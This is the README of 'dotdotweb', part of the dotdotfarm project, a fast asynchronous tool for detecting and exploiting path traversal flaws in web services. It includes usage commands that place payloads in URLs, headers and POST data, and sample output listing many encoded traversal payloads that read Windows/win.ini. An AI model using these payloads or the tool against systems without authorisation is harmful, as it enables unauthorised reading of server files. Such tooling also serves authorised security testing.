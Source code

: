 dotdotfarm
==========

![Version](https://img.shields.io/badge/version-1.5.0-blue?style=for-the-badge)
Utility for detection & exploitation of Path Traversal vulnerabilities in various network services

dotdotweb - PT tool for HTTP services


Tools are written in Python with using asyncio requests (aiohttp) with some acceleration techniques, which allows you to make up to ~3K requests per second

Features
========
- async client for parallel requesting of target (speedup)
- ability to fetch files' content after succeeding a payload
- specifying payload in any part of query (url, headers or POST data)
- using callbacks for future handling of results

Installation
============
```bash
git clone https://github.com/treddis/dotdotfarm.git
cd dotdotfarm
pip install -r requirements.txt
pip3 install .
```

Usage
=====
```bash
usage: dotdotweb.py [-h] [-o {windows,linux}] [-D DEPTH] [-t TIMEOUT]
                    [-f FILE] [-R] [-fs FS] [-fc FC] [-H HEADERS] [-d DATA]
                    [-m {get,post,put,trace,delete}]
                    url

path traversal identificator & exploit

positional arguments:
  url                   url for testing

options:
  -h, --help            show this help message and exit
  -o {windows,linux}, --os-type {windows,linux}
  -D DEPTH, --depth DEPTH
                        depth of PT searching
  -t TIMEOUT, --timeout TIMEOUT
                        timeout of connections
  -f FILE, --file FILE  specific file for PT detection
  -R, --print-files     read traversed files
  -fs FS                filter output by size
  -fc FC                filter output by response code
  -H HEADERS, --header HEADERS
                        specify header for requests
  -d DATA, --data DATA  specify POST data
  -m {get,post,put,trace,delete}, --method {get,post,put,trace,delete}
                        used HTTP method for requests
```
```bash

    .___      __      .___      __    _____
  __| _/_____/  |_  __| _/_____/  |__/ ____\____ _______  _____
 / __ |/  _ \   __\/ __ |/  _ \   __\   __\\__  \\_  __ \/     \
/ /_/ (  <_> )  | / /_/ (  <_> )  |  |  |   / __ \|  | \/  Y Y  \
\____ |\____/|__| \____ |\____/|__|  |__|  (____  /__|  |__|_|  /
     \/                \/                       \/            \/

usage: dotdotweb.py [-h] [-V] [-A] [-R] [-o {windows,linux}] [--delay DELAY] [-d DEPTH] [-t TIMEOUT] [-f FILE]
                    [-fs FS] [-fc FC] [-H HEADERS] [--data DATA] [-m {get,post,put,trace,delete}]
                    url

fast path traversal identificator & exploit

positional arguments:
  url                   target URL

options:
  -h, --help            show this help message and exit
  -V, --version         print version of the tool
  -A, --all             try all files after successfull exploitation (default false)
  -R, --print-files     read traversed files (default false)
  -o {windows,linux}, --os-type {windows,linux}
                        target OS type (default all)
  --delay DELAY         make delays between requests in milliseconds (default 0)
  -d DEPTH, --depth DEPTH
                        depth of PT searching (default 5)
  -t TIMEOUT, --timeout TIMEOUT
                        timeout of connections (default 60)
  -f FILE, --file FILE  specific file for PT detection
  -fs FS                filter output by size
  -fc FC                filter output by response code
  -H HEADERS, --header HEADERS
                        custom header for requests
  --data DATA           specify POST data
  -m {get,post,put,trace,delete}, --method {get,post,put,trace,delete}
                        used HTTP method for requests
```

Passing in GET parameters
----------------------
Passing brute parameters via `?par=val` pairs:
```bash
dotdotweb -o windows -fc 500 \ 
          http://someserver.com:1280/newpath?testparameter=FUZZ&secondparameter=somevalue
```

Passing via headers
-------------------
Passing brute parameters via `Origin: master=FUZZ` pairs:
```bash
dotdotweb -o linux -fc 500,404 -H "Referer: https://www.google.com/path?q=FUZZ" \
          http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Passing via POST data
---------------------
Passing brute parameters via POST data parameters
```bash
dotdotweb -o linux -fc 500 -fs 111 -d "key0=val0&key1=val1" \
          http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Example output
==============
```bash
dotdotweb -o windows "http://localhost:8080/pathtrav?query=FUZZ" 

    .___      __      .___      __    _____
  __| _/_____/  |_  __| _/_____/  |__/ ____\____ _______  _____
 / __ |/  _ \   __\/ __ |/  _ \   __\   __\\__  \\_  __ \/     \
/ /_/ (  <_> )  | / /_/ (  <_> )  |  |  |   / __ \|  | \/  Y Y  \
\____ |\____/|__| \____ |\____/|__|  |__|  (____  /__|  |__|_|  /
     \/                \/                       \/            \/

[*] Started at Sun Jan 22 19:32:46 2023
 ../../../Windows/win.ini                                                   [Status: 200, Size: 111]
 ../Windows/win.ini                                                         [Status: 200, Size: 111]
 ..\Windows\win.ini                                                         [Status: 200, Size: 111]
 ..%2fWindows%2fwin.ini                                                     [Status: 200, Size: 111]
 ..\..\..\Windows\win.ini                                                   [Status: 200, Size: 111]
 ..%5c..%5c..%5cWindows%5cwin.ini                                           [Status: 200, Size: 111]
 ..%5cWindows%5cwin.ini                                                     [Status: 200, Size: 111]
 .%2e/Windows/win.ini                                                       [Status: 200, Size: 111]
 .%2e\Windows\win.ini                                                       [Status: 200, Size: 111]
 .%2e%2fWindows%2fwin.ini                                                   [Status: 200, Size: 111]
 .%2e%5cWindows%5cwin.ini                                                   [Status: 200, Size: 111]
 %5C..%5cWindows%5cwin.ini                                                  [Status: 200, Size: 111]
 f%5C..%2fWindows%2fwin.ini                                                 [Status: 200, Size: 111]
 %5C../Windows/win.ini                                                      [Status: 200, Size: 111]
 %5C..\%5C..\%5C..\Windows\win.ini                                          [Status: 200, Size: 111]
 .%2e\.%2e\.%2e\Windows\win.ini                                             [Status: 200, Size: 111]
 .%2e%5c.%2e%5c.%2e%5cWindows%5cwin.ini                                     [Status: 200, Size: 111]
 %5C..%2f%5C..%2f%5C..%2fWindows%2fwin.ini                                  [Status: 200, Size: 111]
 %5C../%5C../%5C../Windows/win.ini                                          [Status: 200, Size: 111]
 %5C..%5c%5C..%5c%5C..%5cWindows%5cwin.ini                                  [Status: 200, Size: 111]
 %2e./Windows/win.ini                                                       [Status: 200, Size: 111]
 %2e./%2e./%2e./Windows/win.ini                                             [Status: 200, Size: 111]
 %2e.%5cWindows%5cwin.ini                                                   [Status: 200, Size: 111]
 %2e.%5c%2e.%5c%2e.%5cWindows%5cwin.ini                                     [Status: 200, Size: 111]
 .%2e%2f.%2e%2f.%2e%2fWindows%2fwin.ini                                     [Status: 200, Size: 111]
100%|██████████████████████████████████████████████████████████| 6960/6960 [00:12<00:00, 575.63it/s]
[*] Ended at Sun Jan 22 19:32:58 2023 (11 seconds)
```

Limitations
===========
- Python 3.8+
- ~~High speed of requests rate can trigger WAF of you target~~
- Unable to pass own dictionary for payload generator
- No way to flexibly forge payloads
- ~~Need of OS specifying~~
